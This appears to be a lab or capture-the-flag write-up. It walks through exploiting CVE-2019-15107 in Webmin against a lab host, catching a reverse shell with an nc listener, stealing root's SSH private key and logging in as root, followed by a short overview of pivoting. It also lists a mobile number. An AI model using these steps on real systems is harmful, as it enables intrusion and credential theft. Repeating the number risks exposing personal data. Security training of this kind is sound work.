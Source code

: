![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648852456235_image.png)

**Mobile Number**
+447821548812

# Webserver
## Task 6  Webserver Exploitation

Using CVE-2019-15107 Webmin RCE to access target system:

Clone/Execute: 

    git clone https://github.com/MuirlandOracle/CVE-2019-15107
    cd CVE-2019-15107 && pip3 install -r requirements.txt
    sudo apt install python3-pip
    chmod +x ./CVE-2019-15107.py
    ./CVE-2019-15107.py 10.200.90.200

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648919233642_image.png)

Pseudo shell is created and will need to pivot to an actual shell.

**Reverse Shell**
Create reverse shell using `shell` and setup listener on attacking machine:

    rlwrap nc -lvnp 80

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648919471861_image.png)

**Captured .ssh Private key + Access Target**
under `/root/.ssh/id_rsa`

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648919592721_image.png)

Downloaded private key locally to attacking machine and change mod to 600 and initiate an ssh connection:

    chmod 600 id_rsa
    ssh -i id_rsa root@10.200.90.200

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648919785078_image.png)


# Pivoting
## Task 8  Pivoting High-level Overview

There are two main methods encompassed in this area of pentesting:

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be *tunnelled* inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host

